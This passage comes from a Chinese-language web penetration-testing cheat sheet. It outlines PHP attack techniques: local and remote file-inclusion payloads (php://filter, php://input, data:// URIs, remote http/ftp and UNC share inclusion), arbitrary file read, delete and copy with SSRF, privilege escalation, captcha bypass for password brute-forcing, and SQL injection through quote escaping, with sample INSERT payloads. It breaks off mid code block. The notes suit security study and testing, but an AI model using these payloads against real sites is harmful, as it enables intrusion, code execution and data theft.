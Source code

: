                     - `?file=php://filter/convert.base64-encode/resource=index.php`
                        + 话说一些加密的 webshell 可以用 xdebug 跟踪看码得到密码，而且一般有 decode 关键字
            + 远程包含 RFI - `allow_url_include` 默认为 `Off`
                * `allow_url_include = Off`
                    - `allow_url_fopen = Off`
                        + 包含共享文件
                            * `?file=\\192.168.1.1\share\xxx.php`
                * `allow_url_include = On`
                    - `allow_url_fopen = Off`
                        + 代码执行
                            * `?file=php://input`
                        + 利用 dataURIs
                            * `?file=data://text/plain,base64,SSBsb3ZlIFBIUAo=`
                                - `I love PHP`
                    - `allow_url_fopen = On`
                        + 远程代码执行
                            * `?file=[http|https|ftp]://xxx/file`
                            * `?file=[http|https|ftp]://xxx/file.txt[?|%23]`
                        + 利用 XSS 执行任意代码
                            * `?file=http://xxx/xss.php?xss=phpcode`
    * 文件操作
        - 任意文件删除
            + 删除 lock
        - 任意文件复制
            + jpg2php
            + php2txt
        - 任意文件下载
        - 任意文件读取
            + 读取配置/系统重要信息
            + SSRF
                * 漫游内网
        - 写入任意文件
    * 越权
        - 未判断 userid 是当前用户的还是其他用户的
            + 水平越权
            + 垂直越权
    * 登陆密码爆破
        - 撞库
        - 验证码
            + 绕过
                * session 不更新
                * 绕过 session
                    - `@$_POST['catpcha'] != $_SESSION['catpcha']`
                        + 那么如果都是空
                            * burp suite 删 PHPSSID 和 post
                                - 然后爆破
                                    + 看 response 长度判断是否成功
            + 自动识别验证码
    * 截断注入
        + 双条件查询情况下转义一个单引号，这时要考虑截断或字符集转换/反转义
            * 第一个条件去闭合单引号，第二个条件即是 Payload
            * 第一次是前提，第二次根据第一次的前提去注入
        + 
            ```
            INSERT INTO comment(user_name,comment_text,pub_date) VALUES ('{$_SESSION['username']}','$clean_message',now())`
            ```
            * 
                ```
                INSERT INTO comment(user_name,comment_text,pub_date) VALUES ('xxx\','payload',now())
                ```
                - 
                    ```
                    INSERT INTO comment(user_name,comment_text,pub_date) VALUES ('xxx\',',(do sth),1);#',now())